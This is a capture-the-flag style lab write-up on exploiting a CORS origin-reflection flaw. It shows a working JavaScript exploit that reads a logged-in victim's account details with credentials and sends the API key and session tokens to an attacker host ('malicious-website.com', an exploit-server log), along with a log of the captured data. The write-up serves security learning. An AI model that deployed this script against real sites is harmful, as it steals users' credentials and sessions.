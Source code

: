 ![CORS](cors-vulnerability-with-basic-origin-reflection.png)

In this apprentice-level lab, we will exploit a website with a basic CORS vulnerability to obtain a user’s private credentials.

---

Upon logging in with the given credentials, we visit the account details page and check the response headers of the request to `/accountDetails` that fetches the user’s API key:

```
HTTP/1.1 200 OK
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "JQ7ufLKKzNoI4ahWKAKWBG5eP64wgwJW",
  "sessions": [
    "cdmflpOO6psYIp3novWUytbSDM9i68X1"
  ]
}
```

We can see that the `Access-Control-Allow-Credentials: true` is present, let’s try to duplicate this request and change the Origin header to something like `Origin: https://example.com` and see if this value is reflected, the resulting response will be something like this:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://example.com
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "JQ7ufLKKzNoI4ahWKAKWBG5eP64wgwJW",
  "sessions": [
    "cdmflpOO6psYIp3novWUytbSDM9i68X1"
  ]
}
```

The Origin set in the request headers is present in the `Access-Control-Allow-Origin` response headers, this confirms us that this request has a CORS vulnerability, let’s use the reading material’s template to craft our exploit:

```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='//malicious-website.com/log?key='+encodeURIComponent(this.responseText);
};
```

We have to modify out exploit to include the vulnerable website’s `/accountDetails` endpoint and our exploit server `/log` endpoint, after including the code in a `<script>` tag the final exploit will look like this: 

```
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','${LAB_URL}/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='{$EXPLOIT_SERVER_URL}/log?key='+encodeURIComponent(this.responseText);
};
</script>
```

After sending this exploit to our victim we can read their credentials in our exploit server logs:

```
181.63.62.250   2022-12-07 03:10:36 +0000 "GET /log?key=%7B%0A%20%20%22username%22%3A%20%22wiener%22%2C%0A%20%20%22email%22%3A%20%22%22%2C%0A%20%20%22apikey%22%3A%20%22OiwIQ3xcR32ilUvyyai9tSWuUnzjfrzp%22%2C%0A%20%20%22sessions%22%3A%20%5B%0A%20%20%20%20%228QJ2k8dqE1vVtNcHmZixScfFPDENAzvo%22%2C%0A%20%20%20%20%22JNIc4VJZlskPdwjcf2C0fAREYXnaNATt%22%0A%20%20%5D%0A%7D HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36"

```
